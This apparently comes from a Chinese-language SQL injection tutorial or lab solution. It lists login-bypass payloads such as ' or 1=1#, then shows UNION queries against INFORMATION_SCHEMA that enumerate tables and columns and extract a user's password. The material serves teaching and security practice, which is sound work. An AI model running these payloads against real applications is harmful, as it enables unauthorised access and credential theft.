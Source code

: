 
**思路**

信息收集：尝试输入一些单引号，看看有没有报错，判断数据库类型、字符型注入还是数字型注入。报错信息常常会提供很有价值的提示

- 字符型：`SELECT * FROM user WHERE name = 'Fin'`
- 数字型：`SELECT * FROM user WHERE id = 1`

两者最大的区别在于：数字型不需要单引号来闭合，而字符串一般需要通过单引号来闭合

---

**答案**

- `' or '1' = '1`
- `' or 1=1 --'`
- `' or 1=1#`

在MySQL中，`--` 和 `#` 是注释符，可以使用注释符使最后的单引号失效。所以会有很多种写法。

---

除了绕过登录判断检查，在 MySQL 中可以使用 UNION 查询，找到其他数据库的数据，扩大SQL注入获取信息的范围

*MySQL UNION 操作符用于连接两个以上的 SELECT 语句的结果，组合到一个结果集合中。多个 SELECT 语句会删除重复的数据。*

```
SELECT user_id, user_name FROM User
UNION
SELECT product_id, product_name FROM Product;
```

不过需要注意的是：UNION 中的每个查询必须包含相同的列、表达式或者聚合函数

*这里登录数据库，查询一下试试*

---

在 SQL注入的 payload 里，和 UNION 一起出现的经常是 INFORMATION_SCHEMA

**INFORMATION_SCHEMA** 提供了对数据库元数据的访问，包括 MySQL服务器信息，如数据库或表的名称，列的数据类型，访问权限等

所以在验证存在SQL注入漏洞后，可以使用 UNION 语句查询 INFORMATION_SCHEMA 内的数据，获得其他有用的线索（比如所有数据库名及表名等），用于下一步注入攻击

---

查询当前数据库中所有的表

```
select * from Product union select group_concat(table_name),2 
from information_schema.tables where table_schema=database();
```

查询User表中有哪些字段

```
select * from Product union select group_concat(column_name),2 
from information_schema.columns where table_name='User';
```

查询User表中某用户的密码

```
select * from Product union select password,2 
from User where user_id = 1;
```

---